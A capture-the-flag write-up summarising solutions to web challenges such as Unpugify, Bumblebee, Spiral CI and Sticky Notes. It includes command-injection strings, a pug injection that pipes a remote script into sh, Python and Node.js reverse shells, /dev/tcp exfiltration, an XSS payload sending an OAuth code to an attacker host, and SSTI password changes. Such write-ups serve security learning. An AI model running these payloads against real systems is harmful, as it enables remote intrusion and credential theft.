 # Summary
-----------

## Swaggy (Easy 50pts)
1. There's a list of available APIs.
2. Use `Authorization` header with creds admin:admin

## Confidentiality (Easy 50pts)
1. Command injection, `| cat flag.txt`

## Titanic (Easy 50pts)
1. URLCapture to http://localhost/server-status
2. Get credential of `root`
3. Log in

## Integrity (Medium 50pts)
1. Command Injection, `%0acat flag.txt`

## All Baked Up (Medium 359pts)
1. GraphQL Injection
2. Get a credential for authorized user
3. Use mutation for authenticating user
4. Use token and querying flag

## OPA Secrets (Hard 298pts)
1. Download Source code at `/security`
2. Create a secret and view it
3. Change it to id flag note

## Availability (Hard 357pts)
1. Command Injection, `%0acat flag.txt > /dev/tcp/ip_addr/port`

## Unpugify (Hard 480pts)
1. Application using pug and pug-code-gen, it has a critical security issue

template
```
html
  head
  body
    mixin print(text)
      p= text

    +print('Hello, world')
```
pretty
```
');process.mainModule.constructor._load('child_process').exec('curl https://reverse-shell.sh/ip_addr:port | sh');_=('
```

## Bumblebee (Hard 491pts)
1. Debug mode is enable
2. Send array in parameter to trigger error handling and leak snippet code
3. Zip file must have `.flower` extension
4. Django version is vulnerable with zip-slip
5. Replace `/usr/src/app/manage.py` using zip-slip then refresh

manage.py
```
#!/usr/bin/env python
import os
import sys
import socket,subprocess,os

if __name__ == '__main__':
    
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("ip_addr",port))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    subprocess.call(["/bin/sh","-i"])

    os.environ.setdefault('DJANGO_SETTINGS_MODULE', 'bumblebee.settings')
    try:
        from django.core.management import execute_from_command_line
    except ImportError as exc:
        raise ImportError(
            "Couldn't import Django. Are you sure it's installed and "
            "available on your PYTHONPATH environment variable? Did you "
            "forget to activate a virtual environment?"
        ) from exc
    execute_from_command_line(sys.argv)
```

## Spiral CI (Hard 496pts)
1. Application accepting JWT `none` algorithm
2. Tampering `user_id` to `2`
3. Calculator Project using local dependency
4. Vulnerable to dependency confusion

calc.test.js
```
var net = require('net');
var spawn = require('child_process').spawn;
HOST="ip_addr";
PORT="port";
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') { 
    String.prototype.contains = function(it) { 
        return this.indexOf(it) != -1; 
    }; 
}
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit', function(code,signal){
            client.end("Disconnected!\\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);
```

## Sticky Notes (Hard 500pts) ([Detailed Writeup](Web/Sticky%20Notes).)
1. The flow of oauth login for this application is something like this
`sticky-notes/oauth/signin -> oaut/oauth/authorize?state=nyx -> sticky-notes/signin_callback?code=steal&state=nyx`
2. Sticky notes application have XSS in `report a problem`
3. Steal `code` using `iframe`
4. Set `iframe` to oauth application using valid `state` and default value `redirect_url`
5. The oauth application will redirecting to sticky notes with `code` parameter
6. Send the current url to our webhook using js

payload
```
<iframe src="http://challenge.ctf.games:30783/oauth/authorize?response_type=code&client_id=QJ7Bo88ZBioNTZSXTOJrMYDx&redirect_uri=http%3A%2F%2Fchallenge.ctf.games%3A30846%2Foauth%2Fsignin_callback&scope=profile&state=Kjq4dAo18GjizCdF4sYxxO9GVFMddx&action=signin">
</iframe>
<script>
document.querySelector('iframe').addEventListener("load", function(){
    fetch('//ip_addr:port/?'+btoa(this.contentWindow.location.href))
})
</script>
```

## Go Blog (Hard 500pts)
1. `url/models/` and `url/web/` leaking source code
2. Username parameter have SSTI
3. `{{.}}` get credentials of admin but password is encrypted in sha512
3. Set username to `{{.CurrentUser.ChangePassword 'nyx'}}` and visit `/profile` will change our account password to `nyx`.
4. Set username to `{{.Post.Author.ChangePassword 'nyx'}}` and visit `/post/{post_uuid_admin}` will change the password the author of post to `nyx`
5. Change password of admin, logged in and visit `/admin`
